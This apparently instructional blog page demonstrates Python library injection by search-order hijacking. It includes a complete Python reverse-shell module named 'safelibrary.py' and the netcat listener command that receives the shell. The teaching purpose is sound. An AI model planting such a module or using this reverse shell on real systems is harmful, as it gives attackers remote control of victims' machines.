


## Table of contents

<!--ts-->
* [Introduction](##Introduction)
* [Safelibrary.py](##Safelibrary.py)
* [LibraryInjection.py](##LibraryInjection.py)
* [Execution](##Execution)
* [References](##References)

<!--te-->

## Introduction

Python library injection is an example of Search order hijacking. So when you try to import a particular library in Python, you don't always have to specify the entire path to that Python library. The Windows and Linux file systems use the PATH variable on the system to list where it will look for particular libraries, programs, etc. And so this order of operations can be hijacked, because if you have a library or executable at a location higher on that path or that search list then the legitimate one. Then when someone attempts to use that particular Python library they're going to use your version instead of the version that they're looking for.

## Safelibrary.py

In this article, we're going to talk about Python library injection and demonstrate how If you can insert a file at the right location, you can use it to hijack Python execution.

So we're going to start out by looking at a file called safelibrary.py. 



```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

subprocess.call(["/bin/sh","-i"])
```
And so this is an example of what we're planning on hijacking in this article. So we could just as easily name this after some Python package that we actually use something like scapy or any famous library. And if we hijack the search order that Python uses, then we have the ability to have our code run instead of a legitimate version.

This code is an example of a reverse shell written in Python. It's a common example you can find a one-liner for this many different places on Github. So this is going to open up a connection to connecting to a particular IP address on a particular port. We're using the local host in this instance, but of course, you can use any IP address, any port, etc.

## LibraryInjection.py

We have LibraryInjection.py as a legitimate file, So if we open up LibraryInjection.py, we see that this is a relatively simple program it's designed just to demonstrate this potential hijacking.


```
import safelibrary

print("Hello World")
```

## Execution

we are obviously using a library name that isn't defined elsewhere on the system.
However, we can easily replace this with something else on the system. And the reason why is that Python when it's performing its search for the library to import typically starts in the current folder.
In this case, since we have LibraryInjection.py and safelibrary.py in the same folder Safelibrary our version will be the version imported at this first line of library injection. And when we import that program, it's going to run the program which we saw sets up a reverse shell on the system. 

Let run Netcat listener using `nc -l 127.0.0.1 1337`  on the right side of the screen then run LibraryInjection.py
We can see `$` sign appears which indicates that we got a reverse shell.



This is one example of hijacking there's a variety of other examples out there and recommend checking out that section of the MITRE attack framework to learn how to adapt this particular attack, vector to other types of search order hijacking. Thank you.

## References
- [Python for Cybersecurity Specialization](https://www.coursera.org/learn/execution-persistence-privilege-escalation-and-evasion/home/welcome){:target="_blank" rel="noopener"}
- [python-for-cybersecurity](https://github.com/hposton/python-for-cybersecurity/tree/main/Part_6/6.2_Python_Library_Injection){:target="_blank" rel="noopener"}

##### -------------------------------- I really hope you found this useful. --------------------------------